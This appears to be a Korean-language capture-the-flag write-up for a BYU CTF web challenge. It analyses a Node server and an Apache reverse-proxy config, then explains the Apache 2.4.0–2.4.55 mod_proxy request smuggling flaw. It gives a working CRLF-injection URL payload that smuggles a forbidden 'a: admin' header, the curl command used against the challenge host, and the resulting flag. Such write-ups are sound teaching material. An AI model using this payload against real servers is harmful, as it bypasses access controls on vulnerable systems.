 # Wiily Wonka Web

## 코드 분석

### **server.js**

a라는 HTTP 헤더가 있고 그 값이 admin이면 FLAG를 반환된다.

```jsx
// endpoints
app.get('/', async (req, res) => {
    if (req.header('a') && req.header('a') === 'admin') {
        return res.send(FLAG);
    }
    return res.send('Hello '+req.query.name.replace("<","").replace(">","")+'!');
});
```

### **httpd.conf**

백엔드 서버에 요청이 가기 전 리버스 프록시가 설정되어 있어 a라는 헤더가 삭제된다.

```apache
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
    ProxyPassReverse "/name/" "http://backend:3000/"

    RequestHeader unset A
    RequestHeader unset a

</VirtualHost>
```

## **Exploit**

Apache HTTP Server 2.4.0 ~ 2.4.55의 mod_proxy 설정에는 **HTTP Request Smuggling** 취약점이 존재한다. Apache의 mod_proxy 환경에서 RewriteRule 또는 ProxyPassMatch를 설정할 때, 사용자로부터 받은 입력값을 그대로 치환해 백엔드 서버에 전달할 경우 발생한다.

RewriteEngine on 설정은 Apache의 mod_rewrite 모듈의 URL 재작성 기능(URL Rewriting)을 활성화 한다. 즉, 사용자가 요청한 URL을 서버가 내부적으로 다른 경로로 변경하는 것이다.

예를 들어, 문제와 같이 Apache 설정 파일이 다음과 같다고 가정한다.

```apache
RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
```

여기서 [P] 플래그는 Proxy의 약자로, RewriteRule이 URL 재작성 뿐만 아니라 프록시 요청까지 수행하라는 의미이다. 해당 설정은 요청 URL이 /name/으로 시작하는 모든 문자열을 정규표현식에 매칭시킨다.

결과적으로 http://localhost:1337/name/test로 요청을 보내면, 이 요청은 http://backend:3000/?name=test로 재작성되고, [P] 플래그에 의해 백엔드 서버로 프록시 요청이 전달된다.

따라서, 아래와 같이 인코딩된 CRLF(%0d%0a)를 삽입하면, Apache의 URL 재작성 과정에서 이 인코딩이 실제 개행 문자로 디코딩되고, 그 결과 요청 라인이 분리되며 "요청 안에 또 다른 요청"이 삽입된 구조가 만들어진다.

```plaintext
GET /name/a%20HTTP/1.1%0d%0aHost:%20localhost%0d%0aa:%20admin%0d%0a%0d%0a HTTP/1.1
Host: localhost:1337
```

이로 인해 Apache는 하나의 클라이언트 요청을 두 개의 HTTP 요청으로 오해하고, 백엔드로 조작된 프록시 요청을 전달하게 된다.

```plaintext
frontend-1  | 172.22.0.1 - - [19/May/2025:07:03:48 +0000] "GET /name/a%20HTTP/1.1%0d%0aHost:%20localhost%0d%0aa:%20admin%0d%0a%0d%0a HTTP/1.1" 200 15
backend-1   | 172.22.0.3 - - [19/May/2025:07:03:48 +0000] "GET /?name=a HTTP/1.1" 200 15 "-" "-"
```

이와 같이 헤더를 직접 전송하는 것이 아니라, 해당 문자열이 동적으로 헤더처럼 생성되도록 유도하여 서버 측의 헤더 검증을 우회할 수 있다.

```bash
$ curl https://wonka.chal.cyberjousting.com/name/a%20HTTP/1.1%0d%0aHost:%20localhost%0d%0aa:%20admin%0d%0a%0d%0a
byuctf{i_never_liked_w1lly_wonka}
```

## Reference

- https://domdom.tistory.com/670
- https://httpd.apache.org/docs/2.4/rewrite/proxy.html
